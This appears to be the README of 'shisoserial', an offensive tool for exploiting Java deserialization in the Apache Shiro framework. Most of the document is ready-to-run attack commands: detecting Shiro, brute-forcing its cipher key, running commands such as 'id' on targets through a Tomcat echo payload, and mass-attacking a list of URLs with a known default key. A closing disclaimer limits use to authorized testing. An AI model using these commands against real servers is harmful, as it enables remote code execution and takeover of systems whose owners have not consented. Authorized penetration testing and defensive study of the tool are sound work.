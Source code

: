 

# shisoserial

## Background

A simple tool for attacking shiro framework with ysoserial easily.

## Contributor

[4nth0ny](https://github.com/4nth0ny1130) @Friday_lab

## Runtime

*   python 3.x

*   JDK 1.8

## Installation

```
python3 -m pip install -r requirements.txt
```

for `AttributeError: module 'Crypto.Cipher.AES' has no attribute 'MODE_GCM'` or `No module named 'Crypto'`

```
python3 -m pip uninstall crypto pycryptodome
python3 -m pip install pycryptodome
```

## Usage

```
usage: shisoserial.py [-h] --mode MODE --url  [--type default:CBC] [--data] [--key] [--gadget] [--command default:whoami] [--proxies] [--ser]

This is a simple tool to attack framework shiro with ysoserial

optional arguments:
  -h, --help            show this help message and exit
  --mode MODE, -m MODE  check/crack/yso/echo/encode
  --url , -u            Target URL address or the file containing the target URL
  --type default:CBC, -t default:CBC
                        Cipher Type, GCM or CBC
  --data , -d           Using this parameter will make HTTP request with POST method
  --key , -k            Specify a Shiro Key or will use dictionary brute force cracking
  --gadget , -g         Specific Ysoserial Gadget
  --command default:whoami, -c default:whoami
                        Specific Execute Command
  --proxies , -p        Specific Proxy
  --ser , -s            Specific serialize file name
```

## Expample

### Check if shiro framework (default CBC mode)

```
python3 shisoserial.py -m check -u http://127.0.0.1:8080
```

![](README.assets/image-20211229165754332.png)

### Use proxy angent cracking the shiro key with CBC mode

```
python3 shisoserial.py -m crack -u http://*.*.*.*:**** -t CBC -p http://*.*.*.*:****/
```

![](README.assets/image-20211229171904315.png)

### Use Tomcat echo payload attack with  CommonsCollectionsK1 gadget (no DNSlog used)

```
python3 shisoserial.py -m echo -u http://127.0.0.1:8080 -g CommonsCollectionsK1 -c id
```

![](README.assets/image-20211229175021680.png)

### Mass use specified shiro key with Post method

```
python3 shisoserial.py -m crack -u target_urls.txt -k kPH+bIxk5D2deZiIxcaaaA== -d username=1
```

![](README.assets/image-20211229173836486.png)

### Use serialize file generate payload

```
python3 shisoserial.py -m encode -u http://127.0.0.1:8080 -s 1.ser
```

![](README.assets/image-20211229175637985.png)

## Disclaimer

This tool can only be used in the safety construction of enterprises with sufficient legal authorization. During the use of this tool, you should ensure that all your actions comply with local laws and regulations. If you have any illegal behavior in the process of using this tool, you will bear all the consequences yourself, and all developers and all contributors of this tool will not bear any legal and joint liability.
